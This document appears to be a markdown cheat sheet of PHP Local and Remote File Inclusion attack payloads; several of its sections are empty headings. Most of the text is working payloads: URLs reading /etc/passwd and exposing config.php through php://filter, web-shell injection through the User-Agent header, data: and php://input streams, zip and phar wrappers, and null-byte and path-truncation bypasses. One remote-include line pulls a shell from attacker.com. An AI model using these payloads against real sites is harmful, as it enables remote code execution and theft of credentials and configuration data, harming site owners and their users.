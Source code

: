 # Local File Inclusion

## 1) Direct Local Include
```
http://site.com/lfi.php?page=/etc/passwd
```

## 2) php://filter
```
http://www.site.com/lfi.php?page=php://filter/resource=config.php

http://www.site.com/lfi.php?page=php://filter/convert.base64-encode/resource=config.php
```

## 3) /proc/self/environ
Request's user agent can be found there

```
GET /lfi.php?page=/proc/self/environ&cmd=id HTTP/1.1
Host: www.site.com
User-Agent: <?php echo shell_exec($_GET['cmd']);?>
```

## 4) Including images
If image.jpg contains php code it will be interpreted.

```
http://www.site.com/lfi.php?page=upload/image.jpg
```

## 5) Zip and Phar wrappers
File must be zip archive with any extension

```
http://www.site.com/lfi.php?page=zip://image.zip#shell.php

http://www.site.com/lfi.php?page=phar://image.phar#shell.php

```

## 6) Session Files

## 7) PHPInfo Script

## 8) Temporary Files - Windows

## 9) Logs

# Remote File Inclusion
Works when allow_url_include in php.ini is set to TRUE

## 1) Direct Remote Include
Including php file in text format directly
```
http://www.site.com/lfi.hpp?page=http://attacker.com/shell.txt
```

## 2) Data:text/plain
Including php code through data stream
```
http://www.site.com/lfi.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>

http://www.site.com/lfi.php?page=data:text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWydjbWQnXSk7Pz4=
```

## 3) php://input

```
POST /lfi.php?page=php://input&cmd=cd HTTP/1.1
Host: www.site.com
Content-Lenth: 39

<?php echo shell_exec($_GET['cmd']);?>

```

# Fighting with extensions

## 1) Null Bytes
Add null byte that will terminate string

```
http://www.site.com/lfi.php?page=/etc/passwd%00

http://www.site.com/lfi.php?page=/etc/passwd%2500
```

## 2) Truncation

Cut extension by creating long string
```
http://www.site.com/lfi.php?page=../../../../../../../../../../../../etc/passwd
```

```
http://www.site.com/lfi.php?page=/etc/passwd..............................
```

```
http://www.site.com/lfi.php?page=/etc/passwd.\.\.\.\.\.\.\.\.\.\.\.\.\.\.\.\
```
